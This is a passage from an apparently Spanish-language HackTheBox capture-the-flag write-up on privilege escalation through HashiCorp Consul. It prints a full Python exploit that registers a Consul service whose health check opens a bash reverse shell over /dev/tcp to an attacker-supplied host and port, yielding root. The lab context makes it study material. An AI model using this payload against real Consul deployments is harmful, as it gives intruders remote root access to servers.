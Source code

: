 Se usa principalmente en arquitecturas de microservicios y entornos cloud para gestionar la comunicación y configuración de servicios distribuidos.

Funciona con un modelo cliente-servidor y utiliza un almacén de datos key-value distribuido para mantener la información.

### Consul exploit

[Exploit-DB](https://www.exploit-db.com/exploits/51117)

Buscando encontramos un exploit para consul que permite ejecutar una shell reversa como administrador.

Como en este caso es un servicio local y el usuario ya se encuentra autenticado hay que modificar el exploit para que no tome este token.

```python
import requests, sys

if len(sys.argv) < 5:
   print(f"\n[\033[1;31m-\033[1;37m] Usage: python3 {sys.argv[0]} <rhost> <rport> <lhost> <lport>\n")
   exit(1)

target = f"http://{sys.argv[1]}:{sys.argv[2]}/v1/agent/service/register"
json = {"Address": "127.0.0.1", "check": {"Args": ["/bin/bash", "-c", f"bash -i >& /dev/tcp/{sys.argv[3]}/{sys.argv[4]} 0>&1"], "interval": "10s", "Timeout": "864000s"}, "ID": "gato", "Name": "gato", "Port": 80}

try:
   requests.put(target, json=json)
   print("\n[\033[1;32m+\033[1;37m] Request sent successfully, check your listener\n")
except:
   print("\n[\033[1;31m-\033[1;37m] Something went wrong, check the connection and try again\n")
```
[![consul](/assets/img/writeups/hackthebox/heal_htb/consulexploit.png)](/assets/img/writeups/hackthebox/heal_htb/consulexploit.png)

## Root shell

> **Nota**: Recuerda iniciar el puerto de escucha en tu máquina local.
{: .prompt-info }

[![root](/assets/img/writeups/hackthebox/heal_htb/root.png)](/assets/img/writeups/hackthebox/heal_htb/root.png)